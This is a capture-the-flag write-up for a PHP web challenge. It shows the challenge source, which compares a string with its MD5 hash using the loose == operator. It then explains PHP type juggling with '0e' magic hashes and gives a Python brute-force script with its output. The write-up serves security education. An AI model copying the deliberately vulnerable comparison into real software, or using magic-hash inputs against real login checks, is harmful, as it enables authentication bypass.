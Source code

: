 # MD5 Games 1, Web, 50pts

## Problem

10 years has passed since MD5 was broken, yet it is still frequently used in web applications, particularly PHP powered applications (maybe because there's a function after it?). Break it again to prove the point!

## Solution

We get simple form, where we can put our string.

![Screen caption](md51_001.png)

Also, we are able to see PHP source of the challenge:

```php
<?php
if (isset($_GET['src']))
    highlight_file(__FILE__) and die();
if (isset($_GET['md5']))
{
    $md5=$_GET['md5'];
    if ($md5==md5($md5))
        echo "Wonderbubulous! Flag is [here goes a flag]"; //.require __DIR__."/flag.php";
    else
        echo "Nah... '",htmlspecialchars($md5),"' not the same as ",md5($md5);
}


?>
<p>Find a string that has a MD5 digest equal to itself!</p>
<form>
    <label>Answer: </label>
    <input type='text' name='md5' />
    <input type='submit' />
</form>

<a href='?src'>Source Code</a>
```

The only way we can get the flag is to pass string, which MD5 hash is exact the same as the string itself. Because such string does not exists (or I don't know one) we have to find another solution.

The only way to solve this challenge is to exploit PHP type juggling (as ```$md5``` is compared with ```md5($md5)``` with ```==``` instead of strict comparision operator ```===```).

The easiest way to do this is to provide a number starting with ```0e```, which MD5 hash begins with ```0e``` as well and contains only numbers. 

Thats because such comparision will return ```true```:


```php
// test.php
<?php
echo intval('0e123' == '0e999'); // result 1, which means TRUE
echo "\n";
echo intval('0e123' === '0e999'); // result 0, which means FALSE
echo "\n";
```

Result of above script will be:

```
bl4de:~/hacking/ctf/2017/HackDatKiwi_CTF_2017/md5games1 $ php -e test.php
1
0
```

As we can see, comparision with ```==``` returned ```true```.


So we have to find a number, starting from ```0e```, which MD5 hash will contain __only digits__ (both string and its MD5 hash have to be numbers typed in scientific notation), which is indicated by ```0e``` at the beginning; any sign other than digit will cause than one of them can't be casted to number and condition returns ```false```).


My approach to this challenge was to use simple brute force. I've created Python script, which iterates over incremented numbers with ```0e``` as a prefix, calculate MD5 hash of it and checks if that hash starts with ```0e``` and contains only digits after.

Not very efficient solution, but worked fine:

```python
#!/usr/bin/env python
import hashlib
import re

prefix = '0e'


def breakit():
    iters = 0
    while 1:
        s = prefix + str(iters)
        hashed_s = hashlib.md5(s).hexdigest()
        iters = iters + 1
        r = re.match('^0e[0-9]{30}', hashed_s)
        if r:
            print "[+] found! md5( {} ) ---> {}".format(s, hashed_s)
            print "[+] in {} iterations".format(iters)
            exit(0)

        if iters % 1000000 == 0:
            print "[+] current value: {}       {} iterations, continue...".format(s, iters)

breakit()

```


When I run it, after couple of minutes and __almost 216 millions__ of iterations, I get the string which gave me the flag:


```
[+] current value: 0e196999999       197000000 iterations, continue...
[+] current value: 0e197999999       198000000 iterations, continue...
[+] current value: 0e198999999       199000000 iterations, continue...
[+] current value: 0e199999999       200000000 iterations, continue...
[+] current value: 0e200999999       201000000 iterations, continue...
[+] current value: 0e201999999       202000000 iterations, continue...
[+] current value: 0e202999999       203000000 iterations, continue...
[+] current value: 0e203999999       204000000 iterations, continue...
[+] current value: 0e204999999       205000000 iterations, continue...
[+] current value: 0e205999999       206000000 iterations, continue...
[+] current value: 0e206999999       207000000 iterations, continue...
[+] current value: 0e207999999       208000000 iterations, continue...
[+] current value: 0e208999999       209000000 iterations, continue...
[+] current value: 0e209999999       210000000 iterations, continue...
[+] current value: 0e210999999       211000000 iterations, continue...
[+] current value: 0e211999999       212000000 iterations, continue...
[+] current value: 0e212999999       213000000 iterations, continue...
[+] current value: 0e213999999       214000000 iterations, continue...
[+] current value: 0e214999999       215000000 iterations, continue...
[+] found! md5( 0e215962017 ) ---> 0e291242476940776845150308577824
[+] in 215962018 iterations
bl4de:~/hacking/ctf/2017/HackDatKiwi_CTF_2017 $
```

I've put __0e215962017__ into the form and:

![Screen caption](md51_002.png)
